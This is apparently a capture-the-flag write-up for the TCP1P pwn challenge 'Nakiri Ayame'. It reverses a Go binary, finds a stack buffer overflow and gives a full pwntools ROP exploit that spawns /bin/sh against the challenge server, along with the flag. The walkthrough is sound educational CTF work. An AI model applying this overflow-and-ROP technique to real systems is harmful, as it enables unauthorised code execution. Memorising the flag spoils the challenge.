 ## Nakiri Ayame 🩸

```
Author: HyggeHalcyon

Ayame cute noises (✿╹◡╹) https://www.youtube.com/watch?v=XsdQguLgvFc https://www.youtube.com/watch?v=NPMhb_mIIhU

nc ctf.tcp1p.com 6666
```
**Attachment**: [ojou](release/ojou)

We were given an ELF binary. Here's some information about this binary.
![File Information 1](images/a7999030daeddf0e862a6ff81960d03108bbaa7db425fc0d68f253ca44302b3e.png)  


Let's take a look what does this program do
<details close><summary>Decompiled Binary</summary>
    
```c
void __cdecl main_main()
{
  int v0; // r14
  __int128 v1; // xmm15
  int v2; // rax
  int v3; // rax
  char v4; // al
  int v5; // rbx
  int v6; // rax
  int v7; // rax
  int v8; // rdx
  int *v9; // r11
  int v10; // rbx
  int v11; // rax
  int v12; // rax
  int v13; // rdx
  int *v14; // r11
  bufio_Scanner_0 *v15; // [rsp-36h] [rbp-1B8h]
  __int64 v16; // [rsp-36h] [rbp-1B8h]
  __int64 v17; // [rsp-36h] [rbp-1B8h]
  bool v18; // [rsp-36h] [rbp-1B8h]
  string v19; // [rsp-36h] [rbp-1B8h]
  uintptr v20; // [rsp-36h] [rbp-1B8h]
  _BYTE v21[64]; // [rsp-36h] [rbp-1B8h] OVERLAPPED
  uintptr v22; // [rsp-36h] [rbp-1B8h]
  string v23; // [rsp-36h] [rbp-1B8h]
  void *v24; // [rsp-36h] [rbp-1B8h]
  __int64 v25; // [rsp-36h] [rbp-1B8h]
  io_Reader_0 v26; // [rsp-2Eh] [rbp-1B0h]
  error_0 v27; // [rsp-2Eh] [rbp-1B0h]
  error_0 v28; // [rsp-2Eh] [rbp-1B0h]
  bufio_Scanner_0 *v29; // [rsp-2Eh] [rbp-1B0h]
  __int64 v30; // [rsp-2Eh] [rbp-1B0h]
  __int64 v31; // [rsp-2Eh] [rbp-1B0h]
  string v32; // [rsp-2Eh] [rbp-1B0h]
  error_0 v33; // [rsp-2Eh] [rbp-1B0h]
  bufio_Scanner_0 *v34; // [rsp-26h] [rbp-1A8h]
  uintptr v35; // [rsp-26h] [rbp-1A8h]
  uintptr v36; // [rsp-26h] [rbp-1A8h]
  runtime_tmpBuf *v37; // [rsp-26h] [rbp-1A8h]
  string v38; // [rsp-1Eh] [rbp-1A0h]
  string v39; // [rsp-1Eh] [rbp-1A0h]
  __int64 v40; // [rsp-1Eh] [rbp-1A0h]
  string v41; // [rsp-1Eh] [rbp-1A0h]
  __uint8 v42; // [rsp-16h] [rbp-198h]
  uint8 *v43; // [rsp-16h] [rbp-198h]
  __interface_{} v44; // [rsp-Eh] [rbp-190h]
  __interface_{} v45; // [rsp-Eh] [rbp-190h]
  __interface_{} v46; // [rsp-Eh] [rbp-190h]
  int v47[2]; // [rsp+22h] [rbp-160h] BYREF
  char v48[10]; // [rsp+38h] [rbp-14Ah] BYREF
  int v49; // [rsp+42h] [rbp-140h]
  int v50[2]; // [rsp+4Ah] [rbp-138h] BYREF
  __int128 *v51; // [rsp+5Ah] [rbp-128h]
  int v52; // [rsp+62h] [rbp-120h]
  __int128 *v53; // [rsp+6Ah] [rbp-118h]
  __int128 *v54; // [rsp+72h] [rbp-110h]
  __int128 *v55; // [rsp+7Ah] [rbp-108h]
  __int128 *v56; // [rsp+82h] [rbp-100h]
  int *v57; // [rsp+8Ah] [rbp-F8h]
  int v58; // [rsp+92h] [rbp-F0h]
  int v59; // [rsp+9Ah] [rbp-E8h]
  __int128 v60; // [rsp+A2h] [rbp-E0h] BYREF
  int v61; // [rsp+B2h] [rbp-D0h]
  int v62; // [rsp+BAh] [rbp-C8h]
  int v63; // [rsp+C2h] [rbp-C0h]
  int v64; // [rsp+CAh] [rbp-B8h]
  char *v65; // [rsp+D2h] [rbp-B0h]
  int v66; // [rsp+DAh] [rbp-A8h]
  int v67; // [rsp+E2h] [rbp-A0h]
  int *v68; // [rsp+EAh] [rbp-98h]
  int v69; // [rsp+F2h] [rbp-90h]
  int v70; // [rsp+FAh] [rbp-88h]
  __int128 *v71; // [rsp+102h] [rbp-80h]
  int v72; // [rsp+10Ah] [rbp-78h]
  int v73; // [rsp+112h] [rbp-70h]
  __int128 *v74; // [rsp+11Ah] [rbp-68h]
  int v75; // [rsp+122h] [rbp-60h]
  int v76; // [rsp+12Ah] [rbp-58h]
  __int128 *v77; // [rsp+132h] [rbp-50h]
  int v78; // [rsp+13Ah] [rbp-48h]
  int v79; // [rsp+142h] [rbp-40h]
  __int128 *v80; // [rsp+14Ah] [rbp-38h]
  int v81; // [rsp+152h] [rbp-30h]
  int v82; // [rsp+15Ah] [rbp-28h]
  __int128 *v83; // [rsp+162h] [rbp-20h]
  int v84; // [rsp+16Ah] [rbp-18h]
  int v85; // [rsp+172h] [rbp-10h]

  if ( (unsigned int)v50 <= *(_QWORD *)(v0 + 16LL) )
    runtime_morestack_noctxt();
  memset(v48, 0LL, sizeof(v48));
  v65 = v48;
  v66 = 10LL;
  v67 = 10LL;
  bufio_NewScanner(v15, v26);
  v49 = v2;
  fmt_Printf(v16, v27, v38, v44);
  fmt_Printf(v17, v28, v39, v45);
  bufio___Scanner__Scan(v18, v29);
  bufio___Scanner__Text(v19, v34);
  v58 = v3;
  v59 = 3LL;
  *(_QWORD *)&v21[56LL] = v65;
  v47[1LL] = v3;
  main_memcpy(v20, v30, v35);
  v57 = v47;
  v47[0LL] = '3< !uojO';
  v68 = v47;
  v69 = 8LL;
  v70 = 8LL;
  main_equal(v21[0LL], *(__uint8 *)&v21[8LL], v42);
  v21[55LL] = v4;
  if ( v4 )
  {
    v56 = &v60;
    *(_QWORD *)&v60 = &unk_485D00;
    *((_QWORD *)&v60 + 1LL) = &off_4B6A90;
    v83 = &v60;
    v84 = 1LL;
    v85 = 1LL;
    fmt_Println(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(__interface_{} *)&v21[24LL]);
    v50[0LL] = (int)&main_binsh;
    v55 = &v60;
    *(_QWORD *)&v60 = "\b";
    *((_QWORD *)&v60 + 1LL) = &main_binsh;
    v80 = &v60;
    v81 = 1LL;
    v82 = 1LL;
    fmt_Printf(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(string *)&v21[24LL], *(__interface_{} *)&v21[40LL]);
    main_memcpy(v22, v31, v36);
    v60 = v1;
    v51 = &v60;
    v5 = (int)v65;
    runtime_slicebytetostring(v23, v37, v40, v43);
    v61 = v6;
    v62 = v5;
    runtime_convTstring(v24, v32);
    v50[1LL] = v7;
    v8 = (int)v51;
    *(_QWORD *)v51 = &unk_485D00;
    if ( *(_DWORD *)&runtime_writeBarrier.enabled )
    {
      runtime_gcWriteBarrier2();
      *v9 = v7;
      v9[1LL] = *(_QWORD *)(v8 + 8LL);
    }
    *(_QWORD *)(v8 + 8LL) = v7;
    v71 = v51;
    v72 = 1LL;
    v73 = 1LL;
    fmt_Printf(v25, v33, v41, v46);
  }
  else
  {
    v54 = &v60;
    *(_QWORD *)&v60 = &unk_485D00;
    *((_QWORD *)&v60 + 1LL) = &off_4B6AA0;
    v77 = &v60;
    v78 = 1LL;
    v79 = 1LL;
    fmt_Println(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(__interface_{} *)&v21[24LL]);
    v60 = v1;
    v53 = &v60;
    v10 = (int)v65;
    runtime_slicebytetostring(
      *(string *)v21,
      *(runtime_tmpBuf **)&v21[16LL],
      *(__int64 *)&v21[24LL],
      *(uint8 **)&v21[32LL]);
    v63 = v11;
    v64 = v10;
    runtime_convTstring(*(void **)v21, *(string *)&v21[8LL]);
    v52 = v12;
    v13 = (int)v53;
    *(_QWORD *)v53 = &unk_485D00;
    if ( *(_DWORD *)&runtime_writeBarrier.enabled )
    {
      runtime_gcWriteBarrier2();
      *v14 = v12;
      v14[1LL] = *(_QWORD *)(v13 + 8LL);
    }
    *(_QWORD *)(v13 + 8LL) = v12;
    v74 = v53;
    v75 = 1LL;
    v76 = 1LL;
    fmt_Printf(*(__int64 *)v21, *(error_0 *)&v21[8LL], *(string *)&v21[24LL], *(__interface_{} *)&v21[40LL]);
  }
}
```
    
</details>

(Somehow, I can't run this binary on my Ubuntu environment. So, I worked on it with my Parrot VM.)

Based on the decompiled code, the program appears to have two branches. To further understand the program, I decided to conduct dynamic analysis. Here, I set a breakpoint when the program calls the function `main.equal()`. I entered the string "Vaints" as input, and when the program was about to call the function main.equal(), I saw the string "Ojou! \<3".
![Breakpoint main.equal](images/2cbc55aa116184fd6590eed3b7bdf9ed8b14d2b295c9deffed55538055494d55.png)  

From this, I assumed that this string was the "correct" one and tried inputting it into the program. As expected, this string produced a different result.
![Program Output](images/9613cc44f9bb5885920b78076fd567b5e642af081585a13ebf8b3f69c51e0ada.png)  

Then, I thought about exploiting a buffer overflow. Here, I prepared a De Bruijn sequence using cyclic. I placed this pattern right after the "Ojou! \<3" string. As expected, there was indeed a Buffer Overflow vulnerability, even though there was an error in the payload entered.
![Buffer Overflow Caused an Error](images/5328ecf0b9dbfb7b5565133a26756ba4b28ed0da427a908d1a26e183bfc2d4d7.png)  

After that, I looked deeper into which instruction was causing the program to crash and terminate. Until I found out, the program crashed when the program called the `runtime_slicebytetostring()` function at 0x47ddc2 address. 
![runtime_slicebytetostring Crash](images/9eb49330068bb21349c517b62551efb135c2e2472b55818cb286a7d6baa727f9.png)  

As can be seen, the previously entered cyclic pattern is used as the 4th argument to call the `runtime_slicebytetostring()` function. After that I modify my payload to change the 4th argument to 0 (NULL).
```py
p = b""
p += b"Ojou! <3"
p += cyclic(700).replace(p64(0x61706261616f6261), p64(0x0))
```

After rerun the program, the program successfully called the `runtime_slicebytetostring()` function. Once again, the program crashed. But this time, the program crashed because we managed to overwrite the saved RIP of the main function with the cyclic pattern that we've inputed before.

![Saved RIP Overwrited](images/d1dca8e9edd54880b69cfdc0ce0890d30354e868485ce9f17d7627eec4630d4b.png)  

The offset to overwrite the saved RIP was 330 byte (8 byte the length of "Ojou! \<3" + 322 byte from the cyclic). After that, I searched for gadgets that I could use to spawn a shell. Here are some of the gadgets I used to obtain a shell:
```python
POP_RBX = 0x0000000000404541 # : pop rbx ; ret
POP_RDX = 0x0000000000479d7a # : pop rdx ; ret
POP_RAX_RBP = 0x00000000004723ca # : pop rax ; pop rbp ; ret
POP_RDI_LOAD_PTR_RAX = 0x00000000004726a4 # : pop rdi ; add al, byte ptr [rax] ; mov ebx, 0xb ; ret
MOV_QWORDPTR_RAX0x18_RBX = 0x0000000000415312 # : mov qword ptr [rax + 0x18], rbx ; ret
SYSCALL = 0x000000000040316c # : syscall
```

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/ojou"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 6666
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + f"""
            # set follow-fork-mode child
            file {TARGET}
            # b *0x47dae0+0x2b0
            # b *0x47dae0+738
            # b *0x47dae0+909
            b *0x47dae0+0x2e2
            b *0x47dae0+0x16f
            """
            gdb.attach(io, gdbscript=cmd)

    MAIN_ADDRESS = 0x47dae0

    # === Gadget
    BSS_ADDRESS = 0x524100
    POP_RBX = 0x0000000000404541 # : pop rbx ; ret
    POP_RDX = 0x0000000000479d7a # : pop rdx ; ret
    POP_RAX_RBP = 0x00000000004723ca # : pop rax ; pop rbp ; ret
    POP_RDI_LOAD_PTR_RAX = 0x00000000004726a4 # : pop rdi ; add al, byte ptr [rax] ; mov ebx, 0xb ; ret
    MOV_QWORDPTR_RAX0x18_RBX = 0x0000000000415312 # : mov qword ptr [rax + 0x18], rbx ; ret
    SYSCALL = 0x000000000040316c # : syscall

    RIP_OFFSET = cyclic_find(0x61676461)
    p = b""
    p += b"Ojou! <3"
    p += cyclic(RIP_OFFSET).replace(p64(0x61706261616f6261), p64(0x0))
    p += p64(POP_RAX_RBP)
    p += p64(BSS_ADDRESS-0x18)
    p += p64(0xdeadbeef)
    p += p64(POP_RBX)
    p += p64(u64(b"/bin/sh\x00"))
    p += p64(MOV_QWORDPTR_RAX0x18_RBX)

    p += p64(POP_RDI_LOAD_PTR_RAX) # rax is pointing to valid address
    p += p64(BSS_ADDRESS)

    p += p64(POP_RDX)
    p += p64(0)

    p += p64(POP_RAX_RBP)
    p += p64(0x3b)
    p += p64(0xdeadbeef)
    p += p64(SYSCALL) # sys_execve('/bin/sh', NULL, NULL)

    io.sendlineafter(b">", p)

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

![picture 6](images/0c4538019e75a507940e891785f2f477611fe56e295ca38bc649bf8a37c9828a.png)  
    
**Flag:** TCP1P{Ojou_sama_no_giggles_cuteness_overload_kawayoooooo!}
